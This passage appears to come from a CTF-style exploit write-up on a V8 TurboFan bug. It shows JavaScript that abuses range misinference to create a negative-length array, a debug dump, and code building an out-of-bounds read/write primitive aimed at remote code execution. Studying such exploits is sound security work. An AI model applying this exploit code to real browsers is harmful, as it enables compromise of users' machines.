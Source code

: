 ```js
function optimize_me (s) {   // if "hi" not in s:
    let n = s.indexOf("hi"); // value: -1, type: SMI[0,0x1fffffe8]
    n >>= 30                 // value: -1, type: SMI[0,0]
    return Array(n); // about to be explained!
}
for (let i = 0; i < 0x10000; i++) optimize_me("hi");
%DebugPrint(optimize_me("")) // Compile a debug build of d8 before doing this.
```

Arrays of length `n` can be initialised in JS by the `Array(n)` constructor. In particular, if turbofan infers that `n` is an [SMI[i,i]](https://v8.dev/blog/elements-kinds) where `0 <= i < 16`, the 1st bug optimizes the `Array(n)` call to create an array of capacity `i` and length `n`. Because of Bug 2, I can create an SMI where `i != n`, resulting in an array with `capacity < (uint64_t)length`:

```js
DebugPrint: 0x136e081a4349: [JSArray]
 - map: 0x136e08303951 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x136e082cb959 <JSArray[0]>
 - elements: 0x136e0804222d <FixedArray[0]> [PACKED_SMI_ELEMENTS]
 - length: -1
 - properties: 0x136e0804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x136e080446c1: [String] in ReadOnlySpace: #length: 0x136e0824215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
```

I actually had a lot of trouble getting to this point, because I didn't realise that the inferred `Range()` for `n` was so restrictive. With that done and said, I moved on to getting RCE.

### Boring stuff to get RCE from an oob JSArray
After achieving a negative array length, it didn't take long to convert the trivial bug into something resembling my previous CTF oob exploits:

```js
// Use the two bugs to create an oob array that can read/write over an obj_arr && float_arr.
let oob_arr, obj_arr, float_arr;
function opt_me(s) {
    let n = s.indexOf("hi");
    n >>= 30;   // -1, range(0,0). According to https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html this should pass the "constant-folding reducer"
    n *= 1000;  // -1000, range(0,0)
    n += 1      // -999, range(1,1)
    oob_arr = Array(n); // range(1,1) because oob_arr[0] needs to be assigned, and assigning a float to a FixedArray[0] would cause reallocation to a FixedDoubleArray[17]
    oob_arr[0] = 1.1; // convert the array to HOLEY_DOUBLE_ELEMENTS || FixedDoubleArray[1]
    obj_arr = [hex, 1.2]; // obj_arr of length 2 for better memory layout. Any pre-defined object (i.e. not just `hex`) will work here.
    float_arr = [1.1, 1.2]; // 2 elements required to create fakeobj
}
console.log("optimizing")
for (let i = 0; i < 0x10000; i++) opt_me("hi");
opt_me(""); // this sets globals oob_map, obj_map, float_map
for (let i = 0; i < 10; i++) console.log(oob_arr[i], hex(oob_arr[i].f2i()));
```
